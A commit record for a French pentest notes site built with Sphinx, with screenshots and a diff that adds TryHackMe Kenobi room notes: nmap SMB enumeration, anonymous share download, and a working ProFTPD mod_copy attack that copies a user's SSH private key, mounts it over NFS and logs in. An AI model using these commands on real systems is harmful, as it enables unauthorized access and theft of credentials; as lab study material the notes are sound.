

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 1400 px high, scrolled down 1393 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
modif pentest.md + add ports.md

````diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -22,6 +22,12 @@ Exemples :
 * N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)
 
     ```$ sudo nmap -sS -sC 10.10.188.70```
+
+* N°3 : TryHackMe -> [Kenobi Room](https://tryhackme.com/room/kenobi)
+
+    ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```
+    ```nmap -p 139 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```
+
 
 ### Gobuster
 
@@ -54,9 +60,42 @@ user = test
 
 ### ADB connect
 
+[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
+### SMB
 
+Lets inspect one of the shares :
+<br/>```smbclient //<ip>/anonymous```
 
-[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
+You can recursively download the SMB share too. Submit the username and password as nothing.
+<br/>```smbget -R smb://<ip>/anonymous```
+
+### ProFTPD module mod_copy
+
+Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)
+
+Prérequis : port 21
+
+    PORT   STATE SERVICE
+    21/tcp open  ftp
+
+    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
+    └─# nc 10.10.253.117 21
+    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
+    SITE CPFR /home/kenobi/.ssh/id_rsa
+    350 File or directory exists, ready for destination name
+    SITE CPTO /var/tmp/id_rsa
+    250 Copy successful
+
+    mkdir /mnt/<name_folder>
+    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
+    ls -la /mnt/<name_folder>
+
+    cp /mnt/<name_folder>/tmp/id_rsa .
+    sudo chmod 600 id_rsa
+    ssh -i id_rsa kenobi@10.10.253.117
+
+[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)
+
 ## Méthodes
 ### Escalade de privilège
 
````
Also changed, not shown: docs/source/src/ports.md (added, +6 -0 lines).
